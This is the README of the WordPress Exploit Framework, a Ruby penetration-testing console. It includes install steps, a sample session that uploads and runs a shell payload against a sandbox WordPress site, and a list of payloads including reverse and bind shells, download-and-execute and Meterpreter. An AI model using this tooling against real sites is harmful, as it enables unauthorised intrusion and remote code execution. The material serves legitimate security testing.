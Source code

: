 <p align="center"><img src="https://raw.githubusercontent.com/rastating/wordpress-exploit-framework/gh-pages/static/wordpress-exploit-framework-200px.png" /></p>

<h1 align="center">WordPress Exploit Framework</h1>
<p align="center">
  <a href="https://travis-ci.org/rastating/wordpress-exploit-framework"><img src="https://travis-ci.org/rastating/wordpress-exploit-framework.svg?branch=development" alt="Build Status" height="20" /></a> <a href="https://codeclimate.com/github/rastating/wordpress-exploit-framework/maintainability"><img src="https://api.codeclimate.com/v1/badges/5414ccc4e7a1f5e38c79/maintainability" alt="Maintainability" height="20" /></a> <a href="https://coveralls.io/github/rastating/wordpress-exploit-framework?branch=development"><img src="https://coveralls.io/repos/github/rastating/wordpress-exploit-framework/badge.svg?branch=development" alt="Coverage Status" height="20" /></a> <a href="https://badge.fury.io/rb/wpxf"><img src="https://badge.fury.io/rb/wpxf@2x.png" alt="Gem Version" height="20"></a>
</p>

<p align="center">
  A Ruby framework designed to aid in the penetration testing of WordPress systems.
</p>

<hr>

### Installation
To install the latest stable build, run `gem install wpxf`.

After installation, you can launch the WordPress Exploit Framework console by running `wpxf`.

### What do I need to run it?
Ruby >= 2.4.4 is required to run WordPress Exploit Framework.

### Troubleshooting Installation
#### Debian Systems
If you have issues installing WPXF's dependencies (in particular, Nokogiri), first make sure you have all the tooling necessary to compile C extensions:

```
sudo apt-get install build-essential patch
```

It’s possible that you don’t have important development header files installed on your system. Here’s what you should do if you should find yourself in this situation:

```
sudo apt-get install ruby-dev zlib1g-dev liblzma-dev libsqlite3-dev
```

#### Windows Systems
If you are experiencing errors that indicate that `libcurl.dll` could not be loaded, you will need to ensure the latest libcurl binary is included in your Ruby bin folder, or any other folder that is in your environment's PATH variable.

The latest version can be downloaded from http://curl.haxx.se/download.html. As of 16/05/2016, the latest release is marked as `Win32 2000/XP zip	7.40.0 libcurl SSL`. After downloading the archive, extract the contents of the bin directory into your Ruby bin directory (if prompted, don't overwrite any existing DLLs).

### How do I use it?
Start the WordPress Exploit Framework console by running `wpxf`.

Once loaded, you'll be presented with the wpxf prompt, from here you can search for modules using the `search` command or load a module using the `use` command.

Loading a module into your environment will allow you to set options with the `set` command and view information about the module using `info`.

Below is an example of how one would load the symposium_shell_upload exploit module, set the module and payload options and run the exploit against the target.

```
wpxf > use exploit/shell/symposium_shell_upload

[+] Loaded module: #<Wpxf::Exploit::SymposiumShellUpload:0x3916f20>

wpxf [exploit/shell/symposium_shell_upload] > set host wp-sandbox

[+] Set host => wp-sandbox

wpxf [exploit/shell/symposium_shell_upload] > set target_uri /wordpress/

[+] Set target_uri => /wordpress/

wpxf [exploit/shell/symposium_shell_upload] > set payload exec

[+] Loaded payload: #<Wpxf::Payloads::Exec:0x434d078>

wpxf [exploit/shell/symposium_shell_upload] > set cmd echo "Hello, world!"

[+] Set cmd => echo "Hello, world!"

wpxf [exploit/shell/symposium_shell_upload] > run

[-] Preparing payload...
[-] Uploading the payload...
[-] Executing the payload...
[+] Result: Hello, world!
[+] Execution finished successfully
```
For a full list of supported commands, take a look at [This Wiki Page](https://github.com/rastating/wordpress-exploit-framework/wiki/Supported-Commands).

### What is the difference between auxiliary and exploit modules?
Auxiliary modules do not allow you to run payloads on the target machine, but instead allow you to extract information from the target, escalate privileges or provide denial of service functionality.

Exploit modules require you to specify a payload which subsequently gets executed on the target machine, allowing you to run arbitrary code to extract information from the machine, establish a remote shell or anything else that you want to do within the context of the web server.

### What payloads are available?
* **bind_php:** uploads a script that will bind to a specific port and allow WPXF to establish a remote shell.
* **custom:** uploads and executes a custom PHP script.
* **download_exec:** downloads and runs a remote executable file.
* **meterpreter_bind_tcp:** a Meterpreter bind TCP payload generated using msfvenom.
* **meterpreter_reverse_tcp:** a Meterpreter reverse  TCP payload generated using msfvenom.
* **exec:** runs a shell command on the remote server and returns the output to the WPXF session.
* **reverse_tcp:** uploads a script that will establish a reverse TCP shell.

All these payloads, with the exception of `custom` and the Meterpreter payloads, will delete themselves after they have been executed, to avoid leaving them lying around on the target machine after use or in the event that they are being used to establish a shell which fails.

### How can I write my own modules and payloads?
Guides on writing modules and payloads can be found on [The Wiki](https://github.com/rastating/wordpress-exploit-framework/wiki) and full documentation of the API can be found at https://rastating.github.io/wordpress-exploit-framework

## License
Copyright (C) 2015-2018 rastating

Running WordPress Exploit Framework against websites without prior mutual consent may be illegal in your country. The author and parties involved in its development accept no liability and are not responsible for any misuse or damage caused by WordPress Exploit Framework.

This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program.  If not, see <http://www.gnu.org/licenses/>.
